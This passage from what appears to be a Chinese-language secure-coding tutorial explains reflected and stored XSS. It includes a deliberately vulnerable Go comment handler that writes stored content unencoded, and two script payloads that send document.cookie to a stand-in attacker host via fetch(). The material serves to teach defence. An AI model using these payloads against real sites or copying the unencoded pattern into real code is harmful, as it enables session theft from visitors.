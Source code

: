 **真實世界的攻擊會更隱蔽**:
```
https://example.com/search?q=<script>
fetch('https://attacker.com/steal?cookie='+document.cookie)
</script>
```

#### 2. 儲存型 XSS (Stored XSS) - 持久型

**原理**:
惡意腳本被永久儲存在伺服器端 (如資料庫、檔案系統),當其他使用者訪問包含該惡意腳本的頁面時,腳本會被執行。

**攻擊流程**:
1.  攻擊者將惡意腳本提交到伺服器 (如論壇評論、使用者個人資料)。
2.  伺服器將惡意腳本儲存到資料庫中。
3.  當其他使用者瀏覽該頁面時,惡意腳本從資料庫中取出並顯示。
4.  惡意腳本在所有瀏覽該頁面的使用者瀏覽器中執行。

**範例**:

論壇評論功能:

```go
// 脆弱的程式碼
func SaveComment(content string) {
    db.Exec("INSERT INTO comments (content) VALUES (?)", content)
}

func DisplayComments() string {
    rows, _ := db.Query("SELECT content FROM comments")
    var html string
    for rows.Next() {
        var content string
        rows.Scan(&content)
        // 直接輸出,沒有編碼
        html += fmt.Sprintf("<div>%s</div>", content)
    }
    return html
}
```

攻擊者提交評論:
```html
<script>
// 竊取所有訪客的 Cookie 並發送到攻擊者伺服器
fetch('https://attacker.com/steal?cookie='+document.cookie)
</script>
```

這段腳本會影響**所有瀏覽該評論的使用者**,危害範圍更大。

#### 3. DOM-based XSS (基於 DOM 的 XSS)

**原理**:
惡意腳本的執行完全發生在瀏覽器端,伺服器沒有參與。攻擊者操縱 DOM 環境,使得客戶端的 JavaScript 以不安全的方式處理資料。
